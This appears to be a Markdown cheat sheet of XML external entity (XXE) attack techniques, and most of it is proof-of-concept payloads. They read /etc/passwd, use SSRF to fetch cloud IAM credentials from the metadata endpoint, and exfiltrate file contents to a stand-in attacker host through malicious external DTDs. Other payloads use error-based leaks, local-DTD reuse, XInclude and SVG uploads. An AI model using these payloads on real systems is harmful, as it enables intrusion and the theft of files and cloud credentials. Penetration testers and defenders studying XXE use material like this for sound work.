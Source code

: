 # XML external entities
> XML external entities are a type of custom entity whose definition is located outside of the DTD 
> where they are declared.

The declaration of an external entity uses the `SYSTEM` keyword and must specify a URL from which the value of the entity should be loaded. For example:
`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>`
The URL can use the `file://` protocol, and so external entities can be loaded from file. For example: `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`
## XML Parameter Entities
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. 
For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:
`<!ENTITY % myparameterentity "my parameter entity value" >`

And second, parameter entities are referenced using the percent character instead of the usual ampersand: `%myparameterentity;`

## Test Cases (mini Checklist)
Manually testing for XXE vulnerabilities generally involves:
- Testing for [file retrieval](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files) by defining an external entity based on a well-known operating system file and using that entity in data that is returned in the application's response.
- Testing for [blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind) by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system. [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) is perfect for this purpose.
- Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an [XInclude attack](https://portswigger.net/web-security/xxe#xinclude-attacks) to try to retrieve a well-known operating system file.
- Test for XXE in the normal params not just the XML format (XInclude attacks)
- Try `Content-Type: text/xml` 

> Note
> Keep in mind that XML is just a data transfer format. Make sure you also test any XML-based functionality for other vulnerabilities like [XSS](https://portswigger.net/web-security/cross-site-scripting) and SQL injection. You may need to encode your payload using XML escape sequences to avoid breaking the syntax, but you may also be able to use this to [obfuscate your attack](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding) in order to bypass weak defenses.

# POCs
## Normal
```xml
[*] to retrieve files
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY 0xHunter SYSTEM "file:///etc/passwd"> ]> 
<stockCheck>
	<productId>&hunter;</productId>
</stockCheck>

-----------------------------------------------------------------------------------

[*] to perform SSRF
<!DOCTYPE test [<!ENTITY Hunter SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
&Hunter; 
```

## BLIND 
```xml
[*] Detecating blind XXE

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>

-----------------------------------------------------------------------------------

[*] blind XXE using out-of-band detection via XML parameter entities

<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>

-----------------------------------------------------------------------------------

[*] blind XXE using out-of-band detection via XML parameter entities

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
u can target a file like /etc/hostname instead of passwd due to parsing problems
also try use FTP instead of HTTP

-----------------------------------------------------------------------------------

[*] Exploiting blind XXE to retrieve data via error messages

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>

-----------------------------------------------------------------------------------

[*] Exploiting blind XXE by repurposing a local DTD

<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>

---------------------------------------------------------------------------------

[*] Enumrating Local DTD files on the server

<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd;]>
----------------------------------------------------------------------------------

[*] XInclude attacks
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>

-----------------------------------------------------------------------------------

[*] svg file upload to XXE

<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>

Save it as svg file and upload it
```
